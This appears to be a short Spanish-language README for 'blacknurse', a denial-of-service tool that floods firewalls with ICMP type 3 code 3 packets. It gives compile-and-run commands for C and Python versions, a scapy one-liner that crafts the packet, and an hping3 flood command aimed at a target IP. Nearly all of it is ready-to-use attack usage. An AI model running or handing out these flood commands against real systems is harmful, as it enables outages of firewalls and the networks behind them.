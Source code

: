 ## blacknurse
Black Nurse DOS Attack Firewall ( ICMP Type 3 Code 3 )

Ejecutar en c:
gcc blacknurse.c -o blacknurse
./blacknurse IP

Ejecutar en Python:
python blacknurse.py IP

Ejecutar con scapy: 
send(IP(dst="1.2.3.4")/ICMP(code=3,type=3))

Ejecutar con hping3
hping3 --icmp -C 3 -K 3 --flood IP

#
http://www.hackingyseguridad.com/
#

